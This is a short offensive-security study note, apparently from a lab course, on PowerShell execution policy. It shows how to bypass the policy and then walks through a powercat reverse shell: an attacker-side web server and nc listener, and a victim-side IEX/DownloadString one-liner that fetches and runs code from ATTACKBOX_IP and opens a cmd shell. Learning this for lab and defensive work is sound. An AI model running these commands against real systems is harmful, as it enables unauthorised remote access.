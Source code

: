 PowerShell is an object-oriented programming language ***executed from the Dynamic Language Runtime (DLR) in .NET***. 

#### Execution Policy
PowerShell's execution policy is a `security option` to protect the system from running malicious scripts. By default, Microsoft ***disables executing PowerShell scripts `.ps1`*** for security purposes. The PowerShell execution policy is set to `Restricted`, which means it ***permits individual commands but not run any scripts***.

**Check the Execution Policy in PowerShell**:
```
Get-ExecutionPolicy
```

**Change the Execution Policy in PowerShell**:
```
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

#### Bypass Execution Policy
We can change it to `bypass` policy which means that nothing is blocked or restricted.
```
powershell -ex bypass -File thm.ps1

# or
# Bypass Execution Policy for all Sessions:

powershell -ex bypass
```

#### Reverse Shell using Powercat
**Attacker Machine**
This tool is written in PowerShell:
```
git clone hxxps://github.com/besimorhino/powercat.git
```

**Setup a Web Server and Listen on Port**:
```
cd powercat
python3 -m http.server 8080
nc -nvlp 1337
```

**Victim Machine**
Download the payload and execute it using PowerShell payload:
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```



